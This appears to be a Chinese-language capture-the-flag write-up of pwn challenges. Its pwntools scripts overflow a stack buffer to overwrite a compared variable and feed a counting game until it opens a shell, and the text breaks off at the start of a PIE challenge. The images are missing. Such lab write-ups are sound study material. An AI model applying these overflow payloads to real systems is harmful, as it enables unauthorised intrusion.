 # buffer_overflow

![[Pasted image 20250115091055.png]]
反编译后可以看出当`local_62`与`ans`中的内容一样是就可以获取`flag`。
![[Pasted image 20250115091300.png]]
可以看到ans的内容
![[Pasted image 20250115091337.png]]
打开gdb调试可以看到`local_62`内内容的位置，构造`payload`将其覆盖为`ans`内容即可。
exp:
```python
from pwn import *

  

local = True

if local:

p = process("./buffer_overflow")

pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

payload = b'a' * 0x46 + b'Limiter and Wings are beautiful girls!'

p.send(payload)

p.interactive()
```
flag:
![[Pasted image 20250115091529.png]]
# game

![[Pasted image 20250115092751.png]]
反编译后可以看出当local_14累加到999后就可以获取shell。
exp:
```python
from pwn import *

  

context(os="linux", arch="amd64", log_level="debug")

local = True

if local:

p = process("./game")

# pwnlib.gdb.attach(p, 'b *main')

else:

pass

  

num = 0

# p.recvuntil(b"Let's paly a game!")

while num<=999:

p.sendlineafter(b'pls input you num:', b'9')

num += 9

p.interactive()
```
flag:
![[Pasted image 20250115092855.png]]
# pie
开启了pie保护
![[Pasted image 20250115100232.png]]![[Pasted image 20250115100243.png]]
栈溢出仅能覆盖返回地址的一位，显然